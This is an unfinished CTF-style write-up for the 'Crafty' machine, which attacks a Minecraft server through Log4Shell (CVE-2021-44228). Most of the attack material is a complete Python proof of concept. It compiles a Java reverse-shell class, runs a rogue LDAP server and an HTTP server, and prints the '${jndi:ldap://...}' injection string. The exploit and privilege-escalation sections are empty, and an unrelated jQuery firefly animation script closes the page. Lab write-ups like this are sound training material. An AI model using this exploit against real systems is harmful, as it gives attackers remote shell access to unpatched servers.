

# Savage-Lands : Crafty Writeup

Name: Crafty
Date:  
Difficulty:  Easy
Goals:  
Learnt:
Beyond Root:

Please play this song on repeat while reading this Writeup: [Diggy Diggy Hole](https://www.youtube.com/watch?v=34CZjsEI1yU), Rabbit holes!
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



Forums, Store and Voting all are coming soon 


play.crafty.htb - lets go play some [MineCraft](https://www.youtube.com/watch?v=fh9gf4_Bp94)

mistake in my `/etc/hosts` and spelling mistake in the above


The presumption at this point is the web application is just a clue for exploiting some form of Log4Shell exploit and using the web server to access the log file to get the initial shell. 


Another A team legend featured in this repository again!


Starting questioning whether I should probably use a tiling window manager.
```bash
sudo apt-get install openjdk-11-jdk
```


Similar to the [[Bizness-Writeup]] 
`/usr/lib/jvm/java-11-openjdk-amd64/bin/java`


Modifying the [PoC](https://github.com/kozmer/log4j-shell-poc), the original does is rogue LDAP server which will respond to the payload printed to stdout that we will run somehow on the MineCraft server.
```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```

Side not positivity for 2024: Mojo language is *hopeful* not indentation sensitive so that everyone can poison everyone else and their own LLM without have python interpreter telling them to fix the indentation! Hurray.


```lua

:%s/jdk1.8.0_20\/bin\/javac/\/usr\/lib\/jvm\/java-11-openjdk-amd64\/bin\/javac/g

:%s/jdk1.8.0_20\/bin\/java/\/usr\/lib\/jvm\/java-11-openjdk-amd64\/bin\/java/g
```


Researching the client I researched the [MineCraft Protocol Versions](https://minecraft.fandom.com/wiki/Protocol_version) present in the nmap scan then found out there are lots of MineCraft clients.


I went for [MCCTeam - Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client) as we can send commands via the command line without have to worry about display issues to get a cli in game-  [Documentation](https://mccteam.github.io/guide/usage.html).

Failed connection attempts 
```
admin password
```

https://pypi.org/project/PyCraft/

After multiple hours of attempt to connect to the minecraft server and trying different clients

[TLauncher - Help](https://tlauncher.org/en/help.html)
```bash
java -jar TLauncher-2.895.jar
```

[tutorialspoint](https://www.tutorialspoint.com/how-to-create-and-execute-a-jar-file-in-linux-terminal)

After some sodium chloride we download the TLauncher and the correct version of Minecraft 


My assumption is I need to 1.8 version of Java
- Do what you are told - https://github.com/kozmer/log4j-shell-poc
- https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html
	- Create an account
	- download the correct version


- svc_minecraft user is logged on 
- RDP, WMI


- Avoid the session.lock file - https://github.com/Podshot/MCEdit-Unified/issues/328


[Winpeass](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe)


## Exploit

## Foothold

## Privilege Escalation

## Post Root Reflection

## Beyond Root

Cool FireFly effect
```js
!function (a) {
	var b = {
		total: 10,
		ofTop: 0,
		ofLeft: 0,
		on: 'document.body',
		twinkle: 0.2,
		minPixel: 1,
		maxPixel: 2,
		color: '#fff',
		namespace: 'jqueryFireFly',
		zIndex: Math.ceil(20 * Math.random()) - 1,
		borderRadius: '50%',
		_paused: !1
	};
	a.firefly = function (c) {
		if (a.firefly.settings = a.extend({}, b, c), a.firefly.eleHeight = a(a.firefly.settings.on).height(), a.firefly.eleWidth = a(a.firefly.settings.on).width(), a(window).resize(function () {
				if ('document.body' !== a.firefly.settings.on) {
					var b = a(a.firefly.settings.on).offset();
					a.firefly.offsetTop = b.top, a.firefly.offsetLeft = b.left, a.firefly.eleHeight = a(a.firefly.settings.on).height(), a.firefly.eleWidth = a(a.firefly.settings.on).width();
				} else
					a.firefly.offsetTop = 0, a.firefly.offsetLeft = 0, a.firefly.eleHeight = a(document.body).height(), a.firefly.eleWidth = a(document.body).width();
			}), 'document.body' !== a.firefly.settings.on) {
			var d = a(a.firefly.settings.on).offset();
			a.firefly.offsetTop = d.top, a.firefly.offsetLeft = d.left, a.firefly.eleHeight = a(a.firefly.settings.on).height(), a.firefly.eleWidth = a(a.firefly.settings.on).width();
		} else
			a.firefly.offsetTop = 0, a.firefly.offsetLeft = 0, a.firefly.eleHeight = a(document.body).height(), a.firefly.eleWidth = a(document.body).width();
		for (i = 0; i < a.firefly.settings.total; i++) {
			var e = a.firefly.randomPixel(a.firefly.settings.minPixel, a.firefly.settings.maxPixel), f = a.firefly.create(e);
			a.firefly.fly(f);
		}
		return a.firefly.sparks = a(a.firefly.settings.on).children('.' + a.firefly.settings.namespace), this;
	}, a.firefly.pause = function (b) {
		a.firefly.settings._paused = !0, b && a.each(a.firefly.sparks, function (b, c) {
			a(c).stop(!0);
		});
	}, a.firefly.resume = function () {
		a.firefly.settings._paused = !1, a.each(a.firefly.sparks, function (b, c) {
			a.firefly.fly(c);
		});
	}, a.firefly.create = function (b) {
		return spark = a('<div>').hide(), spark.addClass(a.firefly.settings.namespace), a.firefly.settings._onSparkID++, 'document.body' === a.firefly.settings.on ? a(document.body).append(spark) : a(a.firefly.settings.on).append(spark), spark.css({
			position: 'absolute',
			width: b,
			height: b,
			'background-color': a.firefly.settings.color,
			'z-index': a.firefly.settings.zIndex,
			'border-radius': a.firefly.settings.borderRadius,
			top: a.firefly.offsetTop + a.firefly.random(a.firefly.eleHeight - 50),
			left: a.firefly.offsetLeft + a.firefly.random(a.firefly.eleWidth - 50),
			'pointer-events': 'none'
		}).show();
	}, a.firefly.fly = function (b) {
		a(b).animate({
			top: a.firefly.offsetTop + a.firefly.random(a.firefly.eleHeight - 50),
			left: a.firefly.offsetLeft + a.firefly.random(a.firefly.eleWidth - 50),
			opacity: a.firefly.opacity(a.firefly.settings.twinkle)
		}, {
			duration: 2000 * (a.firefly.random(10) + 5),
			done: function () {
				a.firefly.settings._paused || a.firefly.fly(b);
			}
		});
	}, a.firefly.randomPixel = function (a, b) {
		return Math.floor(Math.random() * (b - a + 1) + a);
	}, a.firefly.random = function (a) {
		return Math.ceil(Math.random() * a) - 1;
	}, a.firefly.opacity = function (a) {
		return op = Math.random(), op < a ? 0 : 1;
	};
}(jQuery);
```

Minimised
```js
!function(a){var b={total:10,ofTop:0,ofLeft:0,on:"document.body",twinkle:.2,minPixel:1,maxPixel:2,color:"#fff",namespace:"jqueryFireFly",zIndex:Math.ceil(20*Math.random())-1,borderRadius:"50%",_paused:!1};a.firefly=function(c){if(a.firefly.settings=a.extend({},b,c),a.firefly.eleHeight=a(a.firefly.settings.on).height(),a.firefly.eleWidth=a(a.firefly.settings.on).width(),a(window).resize(function(){if("document.body"!==a.firefly.settings.on){var b=a(a.firefly.settings.on).offset();a.firefly.offsetTop=b.top,a.firefly.offsetLeft=b.left,a.firefly.eleHeight=a(a.firefly.settings.on).height(),a.firefly.eleWidth=a(a.firefly.settings.on).width()}else a.firefly.offsetTop=0,a.firefly.offsetLeft=0,a.firefly.eleHeight=a(document.body).height(),a.firefly.eleWidth=a(document.body).width()}),"document.body"!==a.firefly.settings.on){var d=a(a.firefly.settings.on).offset();a.firefly.offsetTop=d.top,a.firefly.offsetLeft=d.left,a.firefly.eleHeight=a(a.firefly.settings.on).height(),a.firefly.eleWidth=a(a.firefly.settings.on).width()}else a.firefly.offsetTop=0,a.firefly.offsetLeft=0,a.firefly.eleHeight=a(document.body).height(),a.firefly.eleWidth=a(document.body).width();for(i=0;i<a.firefly.settings.total;i++){var e=a.firefly.randomPixel(a.firefly.settings.minPixel,a.firefly.settings.maxPixel),f=a.firefly.create(e);a.firefly.fly(f)}return a.firefly.sparks=a(a.firefly.settings.on).children("."+a.firefly.settings.namespace),this},a.firefly.pause=function(b){a.firefly.settings._paused=!0,b&&a.each(a.firefly.sparks,function(b,c){a(c).stop(!0)})},a.firefly.resume=function(){a.firefly.settings._paused=!1,a.each(a.firefly.sparks,function(b,c){a.firefly.fly(c)})},a.firefly.create=function(b){return spark=a("<div>").hide(),spark.addClass(a.firefly.settings.namespace),a.firefly.settings._onSparkID++,"document.body"===a.firefly.settings.on?a(document.body).append(spark):a(a.firefly.settings.on).append(spark),spark.css({position:"absolute",width:b,height:b,"background-color":a.firefly.settings.color,"z-index":a.firefly.settings.zIndex,"border-radius":a.firefly.settings.borderRadius,top:a.firefly.offsetTop+a.firefly.random(a.firefly.eleHeight-50),left:a.firefly.offsetLeft+a.firefly.random(a.firefly.eleWidth-50),"pointer-events":"none"}).show()},a.firefly.fly=function(b){a(b).animate({top:a.firefly.offsetTop+a.firefly.random(a.firefly.eleHeight-50),left:a.firefly.offsetLeft+a.firefly.random(a.firefly.eleWidth-50),opacity:a.firefly.opacity(a.firefly.settings.twinkle)},{duration:2e3*(a.firefly.random(10)+5),done:function(){a.firefly.settings._paused||a.firefly.fly(b)}})},a.firefly.randomPixel=function(a,b){return Math.floor(Math.random()*(b-a+1)+a)},a.firefly.random=function(a){return Math.ceil(Math.random()*a)-1},a.firefly.opacity=function(a){return op=Math.random(),op<a?0:1}}(jQuery);
```